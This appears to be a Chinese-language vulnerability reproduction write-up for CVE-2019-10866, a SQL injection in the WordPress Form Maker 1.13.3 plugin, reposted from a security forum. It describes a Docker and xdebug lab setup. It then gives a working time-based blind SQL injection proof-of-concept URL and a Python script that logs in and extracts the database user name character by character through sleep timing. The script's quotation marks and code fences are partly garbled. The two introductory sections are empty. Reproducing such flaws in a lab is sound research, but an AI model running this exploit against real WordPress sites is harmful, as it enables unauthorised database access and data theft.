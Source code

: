 # （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3249](https://www.zhihuifly.com/t/topic/3249)

# （CVE- 2019-10866）WordPress Plugin - Form Maker 1.13.3 sql注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 环境搭建

运行环境很简单，只是在vulapps的基础环境的上加了xdebug调试插件，把docker容器作为远程服务器来进行调试。
Dockerfile文件:

```
FROM medicean/vulapps:base_lamp_php7

RUN pecl install xdebug `COPY php.ini /etc/php/7.0/apache2/

COPY php.ini /etc/php/7.0/cli/` 
```

docker-compose文件:

```
version: '3'
services:
  lamp-php7:
    build: .
    ports:
      - "80:80"
    volumes:
      - "/Users/mengchen/Security/Code Audit/html:/var/www/html"
      - "/Users/mengchen/Security/Code Audit/tmp:/tmp" 
```

php.ini中xdebug的配置

```
[xdebug]
zend_extension="/usr/lib/php/20151012/xdebug.so"
xdebug.remote_enable=1
xdebug.remote_host=10.254.254.254
xdebug.remote_port=9000
xdebug.remote_connect_back=0
xdebug.profiler_enable=0
xdebug.idekey=PHPSTORM
xdebug.remote_log="/tmp/xdebug.log" 
```

因为我是在Mac上，所以要给本机加一个IP地址，让xdebug能够连接

```
sudo ifconfig lo0 alias 10.254.254.254 
```

PHPStorm也要配置好相对路径:

![image](img/59b80a4c5f9f72d5759f82d9c914c1f8.png)

插件下载地址:

```
https://downloads.wordpress.org/plugin/form-maker.1.13.3.zip 
```

WordPress使用最新版就可以，在这里我使用的版本是5.2.2，语言选的简体中文。

PS: WordPress搭建完毕后，记得关闭自动更新。

### POC

```
http://0-sec.org/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=,(case+when+(select+ascii(substring(user(),1,1)))%3d114+then+(select+sleep(5)+from+wp_users+limit+1)+else+2+end)+asc%3b 
```

Python脚本，修改自exploit-db

```
#coding:utf-8
import requests
import time

vul_url = “[http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=](http://127.0.0.1/wp-admin/admin.php?page=submissions_fm&task=display&current_id=2&order_by=group_id&asc_or_desc=)”

S = requests.Session()

S.headers.update({“User-Agent”: “Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:66.0) Gecko/20100101 Firefox/66.0”, “Accept”: “text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8”, “Accept-Language”: “zh-CN,en;q=0.8,zh;q=0.5,en-US;q=0.3”, “Referer”: “[http://127.0.0.1/wp-login.php?loggedout=true](http://127.0.0.1/wp-login.php?loggedout=true)”, “Content-Type”: “application/x-www-form-urlencoded”, “Connection”: “close”, “Upgrade-Insecure-Requests”: “1”})

length = 0

TIME = 3

username = “admin”

password = “admin”

def login(username, password):

data = {

“log”: “admin”,

“pwd”: “admin”,

“wp-submit”: “\xe7\x99\xbb\xe5\xbd\x95”,

“redirect_to”: “[http://127.0.0.1/wp-admin/](http://127.0.0.1/wp-admin/)”,

“testcookie”: “1”

}

r = S.post(‘[http://127.0.0.1/wp-login.php](http://127.0.0.1/wp-login.php)’, data=data, cookies = {“wordpress_test_cookie”: “WP+Cookie+check”}) `def attack():

flag = True

data = “”

length = 1

while flag:

flag = False

tmp_ascii = 0

for ascii in range(32, 127):

tmp_ascii = ascii

start_time = time.time()

payload = “{vul_url},(case+when+(select+ascii(substring(user(),{length},1)))%3d{ascii}+then+(select+sleep({TIME})+from+wp_users+limit+1)+else+2+end)+asc%3b”.format(vul_url=vul_url, ascii=ascii, TIME=TIME, length=length)

#print(payload)

r = S.get(payload)

tmp = time.time() - start_time

if tmp >= TIME:

flag = True

break

if flag:

data += chr(tmp_ascii)

length += 1

print(data)

login(username, password)

attack()` 
```

![image](img/372d323b498e85ad75fb338c30feaf99.png)
